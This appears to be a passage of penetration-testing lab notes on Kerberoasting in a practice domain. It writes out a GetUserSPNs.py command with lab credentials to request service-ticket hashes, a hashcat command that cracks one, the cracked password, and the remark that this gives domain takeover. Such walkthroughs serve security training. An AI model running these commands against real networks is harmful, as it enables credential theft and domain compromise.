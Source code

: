 Collect any SPN hashes:
```bash
sudo GetUserSPNs.py MARVEL.local/frank:Password1 -dc-ip 10.0.0.18 -request
```

Results:
![[Pasted image 20240321162849.png]]

## Cracking the hash with hashcat

Store the above collected hash in a file named *sql_service_hash.txt*. Use *hashcat* to crack it:
```bash
hashcat -m 13100 sql_service_hash.txt /usr/share/wordlists/rockyou.txt
```
=> hashcat was able to crack the password: **MYpassword123#**

In our case we now have the password for this domain-admin account and would be able to take over the domain! 